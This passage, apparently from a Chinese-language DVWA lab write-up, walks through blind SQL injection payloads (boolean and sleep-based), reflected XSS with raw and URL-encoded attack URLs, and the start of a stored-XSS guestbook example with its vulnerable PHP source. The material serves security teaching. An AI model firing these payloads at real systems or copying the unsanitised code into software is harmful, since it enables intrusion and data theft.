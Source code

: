 基于布尔盲注需要页面有回显，此时当页面查询出正确的值，$num>0,则是正确的回显，User ID exists in the database.
否则则是错误的回显，说明sql查询不存在回显为User ID is MISSING from the database

布尔盲注

```
payload: 1' and ascii(substr(database(),1,1))<101#
```

时间盲注

```
payload: 1' and if(1=1,sleep(2),1)#
payload: 1' and if(1=2,sleep(2),1)#
```

#### XSS（ Reflected）

```php
<?php

// Is there any input?
if( array_key_exists( "name", $_GET ) && $_GET[ 'name' ] != NULL ) {
    // Feedback for end user
    echo '<pre>Hello ' . $_GET[ 'name' ] . '</pre>';
}

?> 
```

可以看到，代码直接引用了name参数，并没有任何的过滤与检查，存在明显的XSS漏洞(反射型XSS)

在input框输入

```
<script>alert('123')</script>
```

可以构造url为

`http://192.168.124.131/vulnerabilities/xss_r/?name=<script>alert('xss')<%2Fscript>`

对参数name进行url编码

`http://192.168.124.131/vulnerabilities/xss_r/?name=%3c%73%63%72%69%70%74%3e%61%6c%65%72%74%28%27%78%73%73%27%29%3c%2f%73%63%72%69%70%74%3e`

#### XSS（Stored）

```php
<?php 
if( isset( $_POST[ 'btnSign' ] ) ) { 
    // Get input 
    $message = trim( $_POST[ 'mtxMessage' ] ); 
    $name    = trim( $_POST[ 'txtName' ] ); 
    // Sanitize message input 
    $message = stripslashes( $message ); 
    $message = mysql_real_escape_string( $message ); 
    // Sanitize name input 
    $name = mysql_real_escape_string( $name ); 
    // Update database 
    $query  = "INSERT INTO guestbook ( comment, name ) VALUES ( '$message', '$name' );"; 
    $result = mysql_query( $query ) or die( '<pre>' . mysql_error() . '</pre>' ); 
    //mysql_close(); 
} 
?>
```
